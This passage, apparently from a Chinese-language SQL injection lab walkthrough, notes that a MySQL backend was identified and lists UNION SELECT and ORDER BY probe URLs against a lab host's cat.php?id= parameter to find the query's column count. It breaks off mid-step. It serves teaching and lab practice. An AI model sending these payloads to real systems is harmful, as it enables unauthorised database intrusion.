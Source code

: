     ![](lct1.png)
    - #####  根据SQL检测过程中的报错信息可以确认后台数据库为MySQL
    - ##### 确定发出的请求在后端返回数据库查询结果的行数
        - 使用UNION
           ```
           http://10.0.2.7/cat.php?id=1 UNION select 1
           http://10.0.2.7/cat.php?id=1 UNION select 1,2
           http://10.0.2.7/cat.php?id=1 UNION select 1,2,3
           http://10.0.2.7/cat.php?id=1 UNION select 1,2,3,4
           ```
           有结果可知行数为4
           ![](b1.PNG)
        - 使用order by
            ```
            http://10.0.2.7/cat.php?id=1 order by 6
            http://10.0.2.7/cat.php?id=1 order by 3
            http://10.0.2.7/cat.php?id=1 order by 4
            http://10.0.2.7/cat.php?id=1 order by 5
            ```